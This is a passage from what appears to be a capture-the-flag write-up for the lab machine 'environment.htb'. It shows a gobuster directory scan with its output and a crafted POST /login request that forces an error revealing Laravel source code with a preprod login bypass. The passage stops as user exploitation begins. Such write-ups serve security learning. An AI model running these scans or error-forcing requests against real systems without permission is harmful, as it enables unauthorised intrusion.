 We do a directory scan with `gobuster` to find hidden directories and files on the web server:

```bash
gobuster dir -u http://environment.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t200
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://environment.htb
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 2391]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/upload               (Status: 405) [Size: 244852]
/up                   (Status: 200) [Size: 2125]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
/build                (Status: 301) [Size: 169] [--> http://environment.htb/build/]
/mailing              (Status: 405) [Size: 244854]
```

We can force an error on `/login` page and see backend source code. We send a POST `/login` request with an invalid `remember`field:

```bash
POST /login HTTP/1.1
Host: environment.htb
...
email=test%40test.com&password=test&remember=nonboolean
```

This will return a 500 Internal Server Error, which reveals the backend source code:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}
```

## User Exploitation

We can see that environment called `preprod` allows logging in as user with ID 1 without needing a password.
